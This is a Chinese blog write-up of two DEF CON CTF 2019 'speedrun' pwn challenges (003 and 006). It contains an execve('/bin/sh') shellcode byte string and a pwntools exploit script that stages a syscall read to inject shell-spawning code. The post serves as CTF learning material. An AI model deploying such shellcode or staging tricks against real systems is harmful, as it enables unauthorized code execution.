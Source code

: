 ```yaml
---
layout:     post
title:      "Defcon ctf 2019之我好菜"
date:       2019-05-14
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - speedrun
    - defcon ctf 2019
---
```


# Defcon ctf 2019 之菜鸟爬山

[TOC]

## 前言

这次defcon ctf 2019，尝试去做了一下，然后发现两眼一抹黑，看了为数不多的几道题，最后都没有做出来，最后只做了两道speedrun，分别是003和006，两道都是关于shellcode构造的题，好歹是学了点东西，权作总结。

## speedrun-003

首先使用IDA打开文件，分析可以发现主要流程在函数`get_that_shellcode()`中：

![1557815993760](../img/in-post/1557815993760.png)

大意就是读取用户输入的30字节大小的字符串，然后保证前15个字符与后15个字符异或的值相等，然后就执行该段shellcode。

这里的重点在于，当前29个字节异或的值与最后一个字节值相等时，必定满足该条件，所以只需要找一段小于30字节的shellcode就可以了，这里找到了一段执行execv(‘/bin/sh’,0,0)的shellcode：

```c
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

将shellcode补足30个字节，并且计算前29个字节异或的值填到最后一个字节，使用pwntools编写脚本，即可getshell。

## speedrun-006

使用IDA打开文件，主要函数是`get_that_shellcode()`：

![1557816501982](../img/in-post/1557816501982.png)

用户要输入26个字节大小的shellcode，然后会进入函数`shellcode_it()`函数：

![1557816599412](../img/in-post/1557816599412.png)

这个函数主要是对输入的26个字节进行处理，最后放到了一段总长度为78字节的区域，然后运行这一段区域的代码，值得注意的是，前48个字节主要是进行了将寄存器统统置0的操作，后面30个字节是将26个字节中间插入4个0xcc，将其截断，分割成5，4，9，8四个部分，所以要解决的问题就是两点：

- shellcode分片构造(比较好构造，就不多做介绍)
- 消除寄存器被置0的影响

由于寄存器被置0，这就不得不提syscall这个指令的骚操作，这种方法主要是当寄存器的值都为0时，执行syacall会将rip的值给到rcx，所以分片构造时，合理利用rcx实现syscall_read()的效果，就可以不受字节数限制，发送新的获取shell的shellcode了：

```python
shellcode=asm("""
	syscall;
	jmp xx;
	nop;
	nop;
	xx:
	jmp yy;
    ret
    nop
    yy:
    xor rsi,rcx;
    xor edx,ecx;
    syscall
	"""
,os="linux"
,arch="amd64")
# 0f05eb029090eb02c3904831ce31ca0f05
shellcode=shellcode.ljust(26,'\x01') 
p.recvuntil("ride")
p.send(shellcode)

payload="\x90"*0x30+asm("xor rsp,rcx;add rsp,0x500",os="linux",arch="amd64")+asm(shellcraft.amd64.sh(),os="linux",arch="amd64")
p.send(payload)
p.interactive() #get the shell
```

这里主要解释xor rsi,rcx;xor edx,ecx;这两行汇编代码，这里是实现了调用`syscall_read(eax,rsi,edx,rdi)`，其中eax已经为0，代表`syscall_read()`的系统调用号，rsi则是read读到的数据存储的起始地址（这里对应syscall第一次执行时的位置），edx则是对应长度（对应syscall所处内存地址普遍很大，足够读取shellcode），rdi为0代表是从标准输入读入数据，所以我们才能再次传入shellcode执行获得shell。

这里可以通过练习`star ctf 2018`的`primepwn`来熟悉这一方法，[题目地址](<https://github.com/sixstars/starctf2018/tree/master/pwn-primepwn>)以及对该题目的一个解法讲解的博客[文章地址](<http://eternalsakura13.com/2018/04/27/star_primepwn/>)可以点击进行查看。
